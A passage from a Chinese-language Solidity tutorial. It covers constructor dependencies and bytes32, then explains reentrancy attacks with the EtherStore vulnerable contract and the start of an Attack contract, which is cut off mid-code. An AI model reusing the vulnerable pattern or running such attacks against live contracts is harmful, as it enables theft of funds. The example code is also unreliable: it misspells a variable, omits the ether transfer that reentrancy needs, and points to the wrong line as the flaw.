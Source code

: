 ```
  constructor(address _parser) {
        Iparser = IParser(_parser);
    }
```
在以上例子中，我們透過建構子來實例化Iparer，這種方式通常用來建立智能合約與智能合約的依賴。
我們將已經部署在區塊鏈上的parser 智能合約地址，並建立起依賴，可以簡單理解為，我要使用這個地址的合約的功能，因此我要提供地址來使用。

### bytes32

如果你仔細檢閱這個智能合約會看見使用許多bytes32的資料型態。原因是bytes32 是一種常用的數據類型，用於存儲固定長度的字節序列。這個數據類型在多種場合下非常有用，尤其是當你需要高效地存儲和傳遞簡短的數據時，例如狀態碼、標識符、密鑰哈希等。使用 bytes32 相較於使用動態大小的 bytes/string 類型，可以更節省 Gas，因為它占用的存儲空間是固定的。


## 記錄交易的智能合約

### 防止重入攻擊

重入性被認為是智能合約中最災難性的攻擊技術之一​​（例如2016年以太坊上的DAO攻擊事件）。這種攻擊技術能夠完全破壞合約或竊取有價值的信息。當一個函數通過外部調用調用另一個合約時，可能會發生重入性攻擊。下面的清單1展示了一個代碼片段，該代碼片段可以被利用來執行重入性攻擊。這種利用允許攻擊者執行主函數的遞歸回調，形成一個意外的循環，多次重複。例如，當一個容易受攻擊的合約包含一個撤銷函數時，合約可能多次非法調用撤銷函數，以排空合約包含的任何可用餘額。單一函數重入性攻擊和跨函數重入性攻擊是兩種不同的類型，可以被攻擊者利用。這種利用允許攻擊者使用外部調用來執行期望的任務。

讓我們舉個例子，參考以下有漏洞的合約，它可以作為保險箱使用，讓使用者每週提取1乙太幣。

```
contract EtherStore{
        uint256 public withdrawalLimit = 1ether;
        mapping(address => uint256) public lastWithdraTime;
        mapping(address => uint256) public balances;
    
        function depositFunds() public payable{
            balances[msg.sender] += msg.value;
        }
    
        function withdrawFunds(uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            //limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            //下面這一行有漏洞，請試著思考哪裡不合理
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
    
    }
```

如果一個攻擊者創建了一個惡意合約如下

```
import "EtherStore.sol";
    
    contract Attack{
        EtherStore public etherStore;
    
        constructor( address _etherStoreAddress) {
            etherStore = EtherStore(_etherStoreAddress);
        }
    
        function attackEtherStore() public payable{
        
            //attack to the nearest ether
            require(msg.value >= 1 ether);
            
            //send eth to the depositFunds() function
            etherStore.depositFunds.value(1 ether)();
    
```